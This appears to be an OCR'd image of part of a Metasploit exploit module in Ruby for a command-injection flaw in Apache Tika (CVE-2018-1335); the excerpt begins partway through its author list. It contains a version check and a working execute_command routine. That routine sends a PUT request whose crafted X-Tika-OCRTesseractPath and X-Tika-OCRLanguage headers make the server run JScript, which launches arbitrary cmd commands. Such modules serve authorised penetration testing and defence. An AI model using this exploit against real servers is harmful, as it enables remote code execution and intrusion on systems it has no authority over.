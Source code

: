 ```rb
        [
          'h00die', # msf module
          'David Yesland', # edb submission
          'Tim Allison' # discovery
        ],
      'References' =>
        [
          ['EDB', '46540'],
          ['CVE', '2018-1335']
        ]))

    register_options(
      [
        Opt::RPORT(9998),
        OptString.new('TARGETURI', [true, 'The base path to the web application', '/'])
      ])
  end

  def check
    res = send_request_cgi({
             'uri'    => normalize_uri(target_uri),
           })
    if res.nil?
      vprint_error('No server response, check configuration')
      return CheckCode::Safe
    elsif res.code != 200
      vprint_error('No server response, check configuration')
      return CheckCode::Safe
    end

    if res.body =~ /Apache Tika (\d.[\d]+)/
      version = Rex::Version.new($1)
      vprint_status("Apache Tika Version Detected: #{version}")
      if version.between?(Rex::Version.new('1.15'), Rex::Version.new('1.17'))
        return CheckCode::Vulnerable
      end
    end
    CheckCode::Safe
  end

  def execute_command(cmd, opts = {})
    cmd.gsub(/"/, '\"')
    jscript="var oShell = WScript.CreateObject('WScript.Shell');\n"
    jscript << "var oExec = oShell.Exec(\"cmd /c #{cmd}\");"

    print_status("Sending PUT request to #{peer}#{normalize_uri(target_uri, 'meta')}")
    res = send_request_cgi({
             'method' => 'PUT',
             'uri'    => normalize_uri(target_uri, 'meta'),
             'headers' => {
                "X-Tika-OCRTesseractPath" => '"cscript"',
                "X-Tika-OCRLanguage"      => "//E:Jscript",
                "Expect"                  => "100-continue",
                "Content-type"            => "image/jp2",
                "Connection"              => "close"},
             'data' => jscript
           })

    fail_with(Failure::Disconnected, 'No server response') unless res
    unless (res.code == 200 && res.body.include?('tika'))
      fail_with(Failure::UnexpectedReply, 'target may not be vulnerable')
    end
  end
```